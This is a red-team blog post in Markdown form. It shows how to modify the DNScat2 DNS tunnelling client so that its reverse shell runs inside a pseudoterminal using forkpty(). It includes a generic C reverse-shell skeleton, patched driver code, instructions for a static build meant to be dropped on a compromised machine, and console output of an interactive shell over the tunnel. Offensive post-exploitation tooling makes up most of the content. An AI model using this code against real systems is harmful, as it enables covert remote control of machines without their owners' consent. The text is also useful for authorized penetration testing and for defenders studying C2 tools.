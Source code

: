 ```yaml
---
layout: post
title: Beyond pty.spawn: use pseudoterminals in your reverse shells (DNScat2 example)
date: 2018-05-08 12:00:00
categories: posts
en: true
description: Quick article about how to improve well-known tools used in pentests. Forkpty() FTW!!
keywords: "forkpty, pseudoterminal, shell, backdoor, redteam, pentest"
authors:
    - X-C3LL
---
```


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Something that boils me since few years ago is the fashion of using "pty.spawn" and similar tricks to get a pseudoterminal. You does not always have python installed in the machine that you just compromised, so if you are going to drop a custom binary in that machine there is no reason to not to do the things "well". Without a pty, stuff like doing a ssh to other server, using sudo, vim, etc. is a pain in the ass. Of course there are tons of tricks to avoid this issues, but it is far better if we can avoid to use external help when we just can run a child process inside a pty just editing few lines. In this post we are going to edit a well-known tool [DNSCat2](https://github.com/iagox86/dnscat2) in order to obtain a shell inside a pty.


## From fork() to forkpty()

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Almost every tool or code snippet used to obtain a reverse shell uses a similar skeleton that we can simplify to something like this:

```c
...
pid = fork();
if (pid == -1) {
	fprintf(stderr, "F*cked!\n");
}

if (pid == 0) { // Child process...
	//Magic is a socket, a pipe, whatever...
	dup2(magic, STDIN_FILENO);
	dup2(magic, STDOUT_FILENO);
	dup2(magic, STDERR_FILENO);
	execlp("/bin/sh", "pwned", NULL);
	exit(0);
}

//Daddy's code...
...
```

We can use fork() to fork our process and call the /bin/sh binary, or we can call the cool __forkpty()__. Forkpty() is where all the magic lies:

```
DESCRIPTION
  The openpty() function finds an available pseudoterminal and returns file descriptors for the master and slave in amaster and aslave.  If name is not NULL, the filename of the slave is returned in name.  If termp is not NULL, the terminal parameters of the slave will be set to the values in termp.  If
  winp is not NULL, the window size of the slave will be set to the values in winp.

  The login_tty() function prepares for a login on the terminal fd (which may be a real terminal device, or the slave of a pseudoterminal as returned by openpty()) by creating a new session, making fd the controlling terminal for the calling process, setting fd to be  the  standard  input,  output,  and
  error streams of the current process, and closing fd.

  The  forkpty()  function  combines openpty(), fork(2), and login_tty() to create a new process operating in a pseudoterminal.  The file descriptor of the master side of the pseudoterminal is returned in amaster, and the filename of the slave in name if it is not NULL.  The termp and winp arguments, if
  not NULL, will determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

So if we use forkpty(), when we do our execlp("/bin/sh"...) the shell process will be run inside a pseudoterminal. No more pty.spawn, expect, script, stty...

## Improving DNScat2
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
It is the moment to put our hands dirty. Download the code from github (https://github.com/iagox86/dnscat2/ ) and vim the file __client/drivers/driver_exe.c__.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
1. First we are going to add the includes needed:

```c
...
#include <pty.h>
#include <termios.h>
...
```

2. Search the line `driver->pid = fork();` and edit it to use forkpty() (the original code is commented):

```
/*driver->pid = fork();*/  
   int terminalfd; // We are going to read & write to our child through it

   driver->pid = forkpty(&terminalfd, NULL, NULL, NULL); 
   if(driver->pid == -1)
   {  
LOG_FATAL("exec: couldn't create process (%d)", errno);    
exit(1);
   }  

   /* If we're in the child process... */    
   if(driver->pid == 0)
   {  
/* Copy the pipes.
if(dup2(driver->pipe_stdin[PIPE_READ], STDIN_FILENO) == -1)
  nbdie("exec: couldn't duplicate STDIN handle");   

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDOUT_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDOUT handle");  

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDERR_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDERR handle");  

 Execute the new process.
  */  
execlp("/bin/sh", "sh", "-c", driver->process, (char*) NULL);   

/* If execlp returns, bad stuff happened. */   
LOG_FATAL("exec: execlp failed (%d)", errno);  
exit(1);
   }  
```
3. We need to add our "terminalfd" to the "driver" structure:

```c
/* Add the sub-process's stdout as a socket. */      
   /*      
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
  */       
  
   struct termios terminal;  
   tcgetattr(terminalfd, &terminal);  // Get the attributes to change few of them
   terminal.c_lflag &= ~ECHO; 
   terminal.c_lflag &= ~ICANON;  
   tcsetattr(terminalfd, TCSANOW, &terminal);  // Set again the attributes
  
   driver->pipe_stdout[PIPE_READ] =  terminalfd; // Use it to read the output of our child  
   driver->pipe_stdin[PIPE_WRITE] = terminalfd; // Use it to write to the input of our child 
  
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
```

4. Lastly we need to add the flags -static (if we want a static compilation just ready to work when it is dropped in a compromised machine) and -lutil to link the libraries needed.
5. `make`. Et voilà!
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When we try to ssh other server using the original version (just download from github and compile), we see the next error message:
```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> Pseudo-terminal will not be allocated because stdin is not a terminal.

sh (localhost.localdomain) 2> 
```

With our modified version, everything works like a charm:

```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh-4.2$
sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> harlock@localhost's password: FunkyPassword
sh (localhost.localdomain) 2>
Last login: Wed May  9 09:21:41 2018

[harlock@localhost]->~ ⌚ 13:58:48
```

Nice :)!

## Final words

We used DNSCat2 as example because it is a really cool project. You can extrapolate the modus operandi and use it in other projects.
As I always say, if you find any typo or wanna comment something, feel free to reach me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL)
